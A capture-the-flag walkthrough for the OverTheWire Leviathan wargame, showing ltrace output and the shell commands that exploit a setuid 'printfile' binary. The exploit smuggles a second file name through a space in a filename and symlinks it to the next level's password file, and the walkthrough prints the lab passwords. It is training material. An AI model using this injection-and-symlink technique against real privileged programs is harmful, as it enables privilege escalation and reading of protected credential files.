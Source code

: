 # OverTheWire Project

### [Project Leviathan:](http://overthewire.org/wargames/leviathan/)

#### Leviathan Level 1 -> 2
> There is no information for this level, intentionally.

SSH into the second level using the password `ougahZi8Ta`

There's a executable called `printfile`. The program seems to run like `cat`,

```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Unfortunately, it tells us we don't have permission to access the password.
Running ltrace shows us that the program uses a access function to check if the user has access to the file.
But this is the output if access function fails, it should return a different output if it succeeds right?
Create a directory where we have write permission in `/tmp`
Then create a dummy file to check the successful output:

```bash
leviathan2@leviathan:~$ mkdir /tmp/playfield
leviathan2@leviathan:~$ cd /tmp/playfield
leviathan2@leviathan:/tmp/playfield$ echo "hello world" > dummy
leviathan2@leviathan:/tmp/playfield$ ~/printfile dummy
hello world
leviathan2@leviathan:/tmp/playfield$ ltrace ~/printfile dummy
__libc_start_main(0x804858d, 2, 0xffffd6a4, 0x8048680 <unfinished ...>
access("dummy", 4)                                                                                                = 0
snprintf("/bin/cat dummy", 511, "/bin/cat %s", "dummy")                                                           = 14
geteuid()                                                                                                         = 12002
geteuid()                                                                                                         = 12002
setreuid(12002, 12002)                                                                                            = 0
system("/bin/cat dummy"hello world
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                            = 0
+++ exited (status 0) +++
```

So if the output is successful, the program simply executes `/bin/cat "filename"`.
Since the filename is passed into a string and executed in the shell, we can have a space in our filename so the program will `cat` a second file and display it.
We already have a dummy file, so we can create `dummy pass.txt` and `pass.txt`. Create one file `dummy pass.txt` so the access function has something to check and return a successful output with. We already have a seperate file `dummy` to have a space between the two files. Then finally, create a symbolic link to the file `pass.txt`. Since the program's effective user id is for the next level, it executes cat as the next level's user.

```bash
leviathan2@leviathan:/tmp/playfield$ touch "dummy pass.txt"
leviathan2@leviathan:/tmp/playfield$ ln -s /etc/leviathan_pass/leviathan3 pass.txt
leviathan2@leviathan:/tmp/playfield$ ls
dummy  dummy pass.txt  pass.txt
leviathan2@leviathan:/tmp/playfield$ ~/printfile "dummy pass.txt"
hello world
Ahdiemoo1j
```
**Ta-dah!, we get the password for leviathan3 which is `Ahdiemoo1j`**
